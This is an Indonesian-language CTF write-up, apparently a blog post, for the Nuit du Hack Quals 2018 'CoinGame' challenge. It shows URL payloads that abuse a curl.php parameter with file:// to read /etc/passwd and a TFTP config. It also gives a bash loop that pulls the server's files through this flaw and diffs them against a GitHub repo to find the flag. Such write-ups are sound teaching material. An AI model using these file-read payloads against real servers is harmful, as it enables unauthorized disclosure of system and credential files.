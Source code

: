 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-04-01
date: 2018-04-01
title: "Nuitduhack Quals 2018: CoinGame - 200pts"
tags: [nuitduhack]
mathjax: false
imagefeature: 
description: "Nuitduhack Quals 2018: CoinGame - 200pts"
category: CTF
chart: null
---
```



## Problem
---

```
Description
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```
**Url :** http://coingame.challs.malice.fr/

## Writeup
---

Website yang diberikan memiliki fungsi untuk melakukan fetch terhadap input url yg kita berikan. dan kita dapat
mengontrol protokol apa yang akan kita gunakan. untuk membaca lokal file saya menggunakan protokol file://
`http://coingame.challs.malice.fr/curl.php?way=file%3A%2F%2F%2Fetc%2Fpasswd` => untuk file /etc/passwd

pada file /etc/passwd kita belum menemukan informasi lokasi flag kemudian saya mencoba untuk melakukan fuzzing menggunakan burpsuite intruder untuk
mencari configuration file pada sistem linux

![Coin Game](../images/coingame.png)

belum mendapatkan hal yang menarik, kembali ke file /etc/passwd disana terlihat
ada user `tftp:x:104:107:tftp daemon,,,:/srv/tftp:/bin/false` menurut wikipedia `https://en.wikipedia.org/wiki/CURL` 
curl support tftp, setelah membaca `https://help.ubuntu.com/community/TFTP` diketahui file configurasi untuk
tftp yang bisa kita baca `http://coingame.challs.malice.fr/curl.php?way=file:///etc/default/tftpd-hpa`

```

# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
``` 

sampai ke tahap dimana kita butuh kemampuan untuk ~~guessing~~ recon
untuk mencari akun dari author soal tersebut di internet dan kita bisa temukan di copyright 
terlihat ada username di copyright `TOTHEYELLOWMOON` 
setelah kita mencari user dengan username tersebut kita menemukan 
username-nya ada di github dan mempunyai repository `CoinGame` itu menandakan
kita tidak salah orang `https://github.com/totheyellowmoon/CoinGame/`

dan dugaan kita diperkuat oleh Deskripsi dari repositorynya : Congrats it was the first step ! Welcome on my Github, this is my new game but I haven't pushed the modifications ...
dari deskripsinya kita bisa menebak bahwa kode yang terbarunya hanya tersimpan di servernya dan belum di push.

kita clone repositorynya untuk membantu kita mengambil file yang ada diserver dengan memanfaatkan filename nya,
dan kita bandingkan md5sum nya dengan yang ada di server.

```
mkdir ctf
cd ctf
git clone https://github.com/totheyellowmoon/CoinGame.git
mkdir -p Server Server/photo Server/CardFiles Server/Cards Server/Decks Server/gameAnimationImages Server/photo/Drag Server/photo/Moderne Server/photo/New Server/photo/Ogres Server/photo/reve
cd CoinGame
#Download Core file
dir=("" "CardFiles" "Cards" "Decks" "gameAnimationImages" "photo");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/$d/$x" -O "../Server/$d/$x";done;done
cd photo
#Subfolder photo
dir=("Drag" "Moderne" "New" "Ogres" "reve");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/photo/$d/$x" -O "../../Server/photo/$d/$x";done;done
cd ../
#diff the file
dir=("CardFiles" "Cards" "Decks" "gameAnimationImages" "photo" "photo/Drag" "photo/Moderne" "photo/New" "photo/Ogres" "photo/reve"); for d in "${dir[@]}"; do diff <(md5sum $d/* | sed "s/$d//") <(md5sum ../Server/$d/* | sed "s/\.\.\/Server\/$d//");done
```

Ide dari kode di atas adalah mendownload ulang semua file yang 
kita ketahui dari Repository CoinGame dan mengambil file yang ada 
di server dan lakukan perbandingan menggunakan `md5sum` kemudian 
didapatkan beberapa perbedaan
dari file yang ada di repository dan di server 

![Diff](../images/coingame2.png)

flag di temukan di file background[0-3].png

![Flag](../images/coingame3.png)
